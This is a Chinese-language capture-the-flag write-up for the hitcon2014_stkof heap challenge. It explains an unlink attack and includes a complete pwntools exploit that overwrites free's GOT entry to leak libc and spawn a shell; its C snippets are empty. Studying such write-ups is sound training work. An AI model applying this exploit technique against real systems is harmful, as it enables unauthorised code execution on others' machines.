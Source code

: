 # hitcon2014_stkof

[题目地址](https://buuoj.cn/challenges#hitcon2014_stkof)

unlink对于像我一样的小白的难点不在于理解攻击本身，而是懒得算以及不知道怎么算该怎么申请堆块。至少我现在看[wp](https://blog.csdn.net/weixin_45677731/article/details/107747124)可以一边困着睡觉一边理解了（？）

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

堆题重要的只有开没开全RELRO和有没有pie，canary和nx看都不看一眼。没开全relro能搞got，没pie读地址简单。这题是个创新菜单类堆题，因为它压根没给你菜单，只能自己读这几个函数推断是干啥的。

```c
```

allocate分配堆块，没有什么特殊的结构，heap数组单纯存申请的各个堆块的地址，外加另外一个index变量记录索引。

```c
```

edit标准堆溢出。

```c
```

free没有啥问题。

```c
```

剩下一个没改名的函数啥用没有，也没看出来是干啥的。这题堆溢出随便使用，掏出unlink，因为heap数组结构简单，在unlink攻击时比较容易预测和控制。没啥别的说了，直接看exp吧。

```python
from pwn import *
sh=remote("node4.buuoj.cn",25390)
#sh=process("./stkof")
context.log_level='debug'
puts_plt=0x00400760
puts_got=0x00602020
free= 0x00602018
ptr=0x602150
def alloc(size):
    sh.sendline('1')
    sh.sendline(str(size))
    sh.recvuntil('OK\n')

def edit(idx, size, content):
    sh.sendline('2')
    sh.sendline(str(idx))
    sh.sendline(str(size))
    sh.send(content)
    sh.recvuntil('OK\n')

def delete(idx):
    sh.sendline('3')
    sh.sendline(str(idx))
    

alloc(0x30) #这个堆块拿来占位的，注意它的索引是1，因为allocate里面是++index，先自增再放入heap数组，导致heap[0]永远是空的
alloc(0x20)
alloc(0x80) 

payload=p64(0)+p64(0x21)+p64(ptr-0x18)+p64(ptr-0x10) #在2号堆块内部构造一个假堆块。payload代表了假堆块的prev_size+size+fd+bk。fd和bk的值是公式，永远都是ptr-0x18和ptr-0x10。ptr是当前假堆块所在堆块在heap数组里的地址，此处是2号堆块。由于没有pie让这一步简单很多
payload+=p64(0x20)+p64(0x90) #这部分溢出到下一个堆块也就是3号堆块。分别为prev_size+size。因为我们想前一个伪造堆块是空闲的，所以prev_size填伪造堆块的大小
edit(2,len(payload),payload)

delete(3) #unlink执行，让ptr处装着ptr-0x18,即0x602138
sh.recvuntil('OK')

payload=p64(0)+p64(0)+p64(free)+p64(ptr-0x18)+p64(puts_got) #第一个p64(0)填充，第二个p64(0)到原heap数组的地方，p64(free)是heap[1],p64(ptr-0x18)是heap[2],p64(puts_got)是heap[3]
edit(2,len(payload),payload) #编辑2号堆块就是在编辑ptr指向的0x602138。这里是heap数组-8的地方，也是为什么payload前面有个p64(0)
edit(1,8,p64(puts_plt)) #heap[1]是free的got地址，将free改为puts
delete(3) #那么delete时就会泄露出puts_got


base = u64(sh.recv(6).ljust(8,b'\x00'))-456336
sh.recvuntil('OK')
system_addr=base+283536


payload=p64(0)+p64(0)+p64(free)+p64(ptr-0x18)+p64(ptr+0x10)+b"/bin/sh" #如法炮制，p64(ptr+0x10)是指向后面b"/bin/sh"的指针，这个计算就好了
edit(2,len(payload),payload)
edit(1,8,p64(system_addr))
delete(3)
sh.interactive()
```